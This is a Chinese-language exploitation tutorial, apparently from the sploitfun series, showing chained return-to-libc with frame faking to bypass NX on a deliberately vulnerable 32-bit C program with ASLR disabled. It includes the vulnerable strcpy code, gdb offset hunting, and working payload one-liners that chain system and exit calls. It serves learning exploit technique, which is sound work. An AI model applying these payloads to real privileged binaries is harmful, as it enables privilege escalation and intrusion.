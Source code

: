 ```yaml
---
layout: post
title: 通过chained return-to-libc绕过NX
excerpt: "sploitfun系列教程之2.2 chained return-to-libc"
categories: [sploitfun系列教程]
comments: true
---
```


漏洞代码
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
编译
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -g -o vuln vuln.c -m32
chmod 777 vuln
```
现在我们面临两个问题

- libc地址和参数需要以特定的结构叠放在栈空间，多个libc地址和参数无法同时叠放在一起
- seteuid_arg这个参数值应该是0，但是strcpy()函数的特性，不会讲`\x00`之后的参数拷贝到栈中

为了解决第一个问题我们使用了这两个技术
1. ESP Lifting
2. Frame Faking

#### 什么是Frame Faking?
Frame Faking不是使用libc函数地址（本例中为seteuid）直接覆盖返回地址，而是使用`leave ret`指令来覆盖它。这样避免了参数的重叠，使多个function及参数值的叠放成为了可能，首先我们看一下需要构造的栈空间的结构
![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/chanined-return-to-libc.png)

leave指令
```
mov esp,ebp            //esp = ebp
pop ebp                //ebp = *esp
```
ret指令 :  `pop eip`

main函数中的最后两条指令
```shell
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Before main’s epilogue executed, as shown in the above stack layout, attacker would have overflown the buffer and would have overwritten, main’s ebp with fake_ebp0 (0xbffff204) and return address with “leave ret” instruction address (0x0804851c). Now when CPU is about to execute main’s epilogue,  EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- leave’ changes following registers
	- esp = ebp = 0xbffff1f8
	- ebp = 0xbffff204, esp = 0xbffff1fc
- ‘ret’ executes “leave ret” instruction (located at stack address 0xbffff1fc) .

seteuid: Now again EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- ‘leave’ changes following registers
	- esp = ebp = 0xbffff204
	- ebp = 0xbffff214, esp =0xbffff208
- ‘ret’ executes seteuid() (located at stack address 0xbffff208). To invoke seteuid successfully, seteuid_arg should be placed at offset 8 from seteuid_addr ie) at stack address 0xbffff210
- After seteuid() gets invoked, “leave ret” instruction (located at stack address 0xbffff20c), gets executed.

这样我们的程序就可以实现多个函数调用了

第二个问题，seteuid_arg应为零。如何在堆栈地址0xbffff210通过strcpy方法写入0？

NOTE: 在我的libc.so.6中strcpy方法的地址是 0xb7ea6200 – ie)这个地址本身就包含了一个NULL byte .我们就无法使用strcpy这个方法编写exp. 而sprintf的地址是0xb7e6e8d0, 它可以替代strcpy,将 NULL byte放到栈中响应的位置

在栈中我们可以这样叠放:


```
sprintf | sprintf | sprintf | sprintf | seteuid | system | exit
```
**大概就是sprintf叠放最后是一个\x00,通过调用四个sprintf,达到值为0x00000000**

----

#### 编写exp

确定offset
```shell
gdb-peda$ r `python -c 'print "A"*268+"B"*4'`
...
...
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
查看buf地址
```
gdb-peda$ p &buf
$2 = (char (*)[256]) 0xffffd430
```
找到return address地址为`0xffffd53c`
```shell
gdb-peda$ x/100wx 0xffffd430
0xffffd430:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd440:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd450:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd460:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd470:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd480:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd490:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd500:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd510:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd520:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd530:	0x41414141	0x41414141	0x41414141	0x42424242
0xffffd540:	0x00000000	0xffffd5d4	0xffffd5e0	0xf7fd86b0
```
通过`more /proc/1745/maps`查看libc基地址

通过`readelf -s /usr/lib/libc-2.17.so |grep system`查看offset

通过`objdump -s vuln | less`查找字符串地址

使用`ROPgadget --binary vuln | less`查找代码片段

搭建好一个function的exp(运行time命令)`aaa | system address | exit address | args:time`
```shell
./vuln `python -c 'print "A"*268+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp澉燝泖吟圜user	0m0.00s
sys	0m0.00s
```
通过`leave;ret`实现的运行一个function的exp(运行time命令)`fake ebp0 | system address | exit address | args:time | "A"*248 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\xa0\x47\xe3\xf7"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*248+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
通过`leave;ret`实现的运行多个(两个)function的exp`fake ebp0(指向fake ebp1) | system addr | leave_ret | system_arg:time | fake ebp1 | system addr | exit addr | system_arg:time | "A"*232 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
结果看到，运行了两个function
```
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
吟圜[New process 17599]
process 17599 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
user	0m0.00s
sys	0m0.00s
[Inferior 2 (process 17599) exited normally]
user	0m0.00s
sys	0m0.00s
Warning: not running
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
```